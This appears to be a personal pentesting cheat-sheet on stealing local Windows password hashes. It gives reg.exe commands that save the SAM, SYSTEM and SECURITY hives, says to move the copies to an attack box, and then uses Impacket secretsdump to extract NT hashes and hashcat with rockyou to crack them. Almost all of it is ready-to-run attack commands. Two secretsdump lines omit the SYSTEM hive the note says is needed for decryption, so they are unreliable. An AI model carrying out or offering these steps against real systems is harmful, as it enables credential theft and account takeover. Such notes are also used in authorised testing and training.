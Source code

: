 -- -
### Registry Targets
- `hklm\sam` - Contains the local account password hashes
- `hklm\system` - Contains the system bootkey used to encrypt the SAM database, used to decrypt the SAM database
- `hklm\security` - Contains cached credentials for domain accounts. More for domain joined targets
### Copy Registry Targets
on an elevated shell, PS or cmd:
```powershell
# Make a copy of SAM
reg.exe save hklm\sam C:\sam.save

# Make copy of system reg entry
reg.exe save hklm\system C:\system.save

# make a copy of the security reg entry
reg.exe save hklm\security C:\security.save
```
[[Dark Arts I/File Transfer/~Home|File transfer]] the copies to attack box. 
### Dump Hashes
First you need to dump the hashes. This decrypts the hashes using the bootkey, then dumps them out so you can grab them and try to crack them.
```bash
# necessary 
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save LOCAL

# good to have if AD is present
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# kali, most likely
impacket-secretsdump -sam sam.save -security security.save LOCAL
```
Output will show:
`(uid:rid:lmhash:nthash)` 
You will need to remember the username associated with the hash (first value) and the NT hash to crack the password (last value).
### Cracking with Hashcat
```bash
# note that you can have multiple hashes in the hash file, just make sure it's only one hash per line and nothing else. 
sudo hashcat -m 1000 hash rockyou.txt
```